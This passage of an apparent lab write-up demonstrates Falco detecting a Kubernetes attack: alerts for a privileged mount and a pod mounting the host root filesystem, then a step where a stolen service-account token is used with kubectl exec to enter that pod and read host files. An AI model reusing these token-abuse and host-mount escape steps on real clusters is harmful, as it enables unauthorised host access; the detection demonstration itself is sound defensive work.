 ```bash

{"output":"18:40:54.962885049: Warning Mount was executed inside a privileged container (user=root user_loginuid=-1 command=mount -t tmpfs tmpfs /var/lib/kubelet/pods/04c59dfa-b08c-450d-81bb-48205b92cbc5/volumes/kubernetes.io~secret/default-token-xqql4 k8s.ns=<NA> k8s.pod=<NA> container=849305f2c3de image=rancher/hyperkube:v1.18.20-rancher1) k8s.ns=<NA> k8s.pod=<NA> container=849305f2c3de k8s.ns=<NA> k8s.pod=<NA> container=849305f2c3de","priority":"Warning","rule":"Mount Launched in Privileged Container","time":"2021-09-15T18:40:54.962885049Z", "output_fields": {"container.id":"849305f2c3de","container.image.repository":"rancher/hyperkube","container.image.tag":"v1.18.20-rancher1","evt.time":1631731254962885049,"k8s.ns.name":null,"k8s.pod.name":null,"proc.cmdline":"mount -t tmpfs tmpfs /var/lib/kubelet/pods/04c59dfa-b08c-450d-81bb-48205b92cbc5/volumes/kubernetes.io~secret/default-token-xqql4","user.loginuid":-1,"user.name":"root"}}

{"output":"18:40:57.256690969: Notice Container with sensitive mount started (user=root user_loginuid=-1 command=sleep 300000000 k8s.ns=dev k8s.pod=alpine container=4c28a2b97d1f image=alpine:latest mounts=/:/mnt::true:rslave,/var/lib/kubelet/pods/04c59dfa-b08c-450d-81bb-48205b92cbc5/volumes/kubernetes.io~secret/default-token-xqql4:/var/run/secrets/kubernetes.io/serviceaccount:ro:false:rprivate,/var/lib/kubelet/pods/04c59dfa-b08c-450d-81bb-48205b92cbc5/etc-hosts:/etc/hosts::true:rprivate,/var/lib/kubelet/pods/04c59dfa-b08c-450d-81bb-48205b92cbc5/containers/evil/1444a51c:/dev/termination-log::true:rprivate) k8s.ns=dev k8s.pod=alpine container=4c28a2b97d1f k8s.ns=dev k8s.pod=alpine container=4c28a2b97d1f","priority":"Notice","rule":"Launch Sensitive Mount Container","time":"2021-09-15T18:40:57.256690969Z", "output_fields": {"container.id":"4c28a2b97d1f","container.image.repository":"alpine","container.image.tag":"latest","container.mounts":"/:/mnt::true:rslave,/var/lib/kubelet/pods/04c59dfa-b08c-450d-81bb-48205b92cbc5/volumes/kubernetes.io~secret/default-token-xqql4:/var/run/secrets/kubernetes.io/serviceaccount:ro:false:rprivate,/var/lib/kubelet/pods/04c59dfa-b08c-450d-81bb-48205b92cbc5/etc-hosts:/etc/hosts::true:rprivate,/var/lib/kubelet/pods/04c59dfa-b08c-450d-81bb-48205b92cbc5/containers/evil/1444a51c:/dev/termination-log::true:rprivate","evt.time":1631731257256690969,"k8s.ns.name":"dev","k8s.pod.name":"alpine","proc.cmdline":"sleep 300000000","user.loginuid":-1,"user.name":"root"}}
```


## Use case 9 : exec into container

Now that the evil.yaml pod mounted host filesystem from its root we can exec into it and read/write directly on the host.

```bash
root@wordpress-9bb79bb48-fw68x:~# ./kubectl --token=$(cat devops-token) exec -it alpine -- sh
/ # ls /mnt
bin         etc         lib32       lost+found  opt         root.txt    snap        tmp
boot        home        lib64       media       proc        run         srv         usr
dev         lib         libx32      mnt         root        sbin        sys         var
/mnt # cat root.txt 
pawned
```
Detected 

```bash
{"output":"18:44:25.176793748: Notice A shell was spawned in a container with an attached terminal (user=root user_loginuid=-1 k8s.ns=dev k8s.pod=alpine container=4c28a2b97d1f shell=sh parent=runc cmdline=sh terminal=34816 container_id=4c28a2b97d1f image=alpine) k8s.ns=dev k8s.pod=alpine container=4c28a2b97d1f k8s.ns=dev k8s.pod=alpine container=4c28a2b97d1f","priority":"Notice","rule":"Terminal shell in container","time":"2021-09-15T18:44:25.176793748Z", "output_fields": {"container.id":"4c28a2b97d1f","container.image.repository":"alpine","evt.time":1631731465176793748,"k8s.ns.name":"dev","k8s.pod.name":"alpine","proc.cmdline":"sh","proc.name":"sh","proc.pname":"runc","proc.tty":34816,"user.loginuid":-1,"user.name":"root"}}
```
## See Falco logs in Elasticsearch 
